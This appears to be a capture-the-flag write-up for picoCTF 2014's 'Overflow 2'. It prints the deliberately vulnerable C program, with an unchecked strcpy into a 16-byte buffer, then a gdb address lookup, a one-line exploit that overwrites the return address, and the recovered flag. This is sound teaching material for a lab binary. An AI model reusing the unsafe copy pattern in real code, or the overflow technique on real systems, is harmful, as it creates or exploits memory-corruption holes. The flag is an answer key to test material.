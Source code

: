 ```yaml
---
layout: post
title: "picoCTF 2014 Overflow 2"
date: 2014-11-07 19:56:13 -0500
author: [superkojiman]
comments: true
categories: [picoctf]
---
```


### Solved by superkojiman

Overflow 2 is a 70 point binary exploitation challenge. 

> This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively here, and the source can be found here.

The code for the binary is provided:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

There's clearly an overflow in the vuln() function when a string larger than 16 bytes is copied to buf. All we need to do is overwrite the return address with the address of the give_shell() function to get our shell. Using the interactive interface, we see that we can overwrite EIP by sending 28 bytes of junk:

![](/images/2014/pico/overflow2/01.png)

Now we just need the address of the give_shell() function:

```text
pico1139@shell:/home/overflow2$ gdb ./overflow2 -q -batch -n -ex 'p give_shell'
$1 = {<text variable, no debug info>} 0x80484ad <give_shell>
```

We have everything we need to exploit it and get our shell:

```
pico1139@shell:/home/overflow2$ ./overflow2 `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
$ id
uid=11066(pico1139) gid=1003(overflow2) groups=1017(picogroup)
$ cat flag.txt
controlling_%eip_feels_great
```

The flag is **controlling_%eip_feels_great**

